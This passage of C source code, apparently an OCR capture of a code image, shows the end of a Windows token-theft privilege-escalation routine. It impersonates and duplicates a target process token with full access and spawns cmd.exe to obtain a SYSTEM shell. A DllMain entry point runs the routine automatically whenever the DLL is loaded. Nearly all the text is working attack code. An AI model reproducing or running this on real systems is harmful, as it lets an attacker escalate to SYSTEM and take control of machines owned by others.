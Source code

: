 ```c
        }
        printf("[+] Obtained A Handle To The Target Token %lx \n", OpenToken);

        Impersonate = ImpersonateLoggedOnUser(TokenHandle);
        if (!Impersonate)
        {
            printf("[-] Faild To Impersonate The TOKEN User \n");
        }
        printf("[+] Impersonted The Token's User %lx \n", Impersonate);

        Duplicate = DuplicateTokenEx(TokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &NewToken);
        if (!Duplicate)
        {
            
            printf("[-] Faild To Dulplicate The Target Token\n");
        }
        printf("[+] Duplicated The Target Token %lx \n", Duplicate);

        BOOL NewProcess;
        STARTUPINFO lpStartupInfo = { 0 };
        PROCESS_INFORMATION lpProcessInformation = { 0 };

        lpStartupInfo.cb = sizeof(lpStartupInfo);

        NewProcess = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &lpStartupInfo, &lpProcessInformation);

        if (!NewProcess)
        {
            printf("[-] Faild To Create A SYSTEM Process \n");
        }
        printf("[+] Create A SYSTEM Process %lx \n", NewProcess);
        printf("[+] Getting System Shell \n");
        printf("-------------------------------------------------------\n");

        CloseHandle(NewToken);
        CloseHandle(hProcess);
        CloseHandle(TokenHandle);
    }
}

BOOL APIENTRY DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        exploit();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
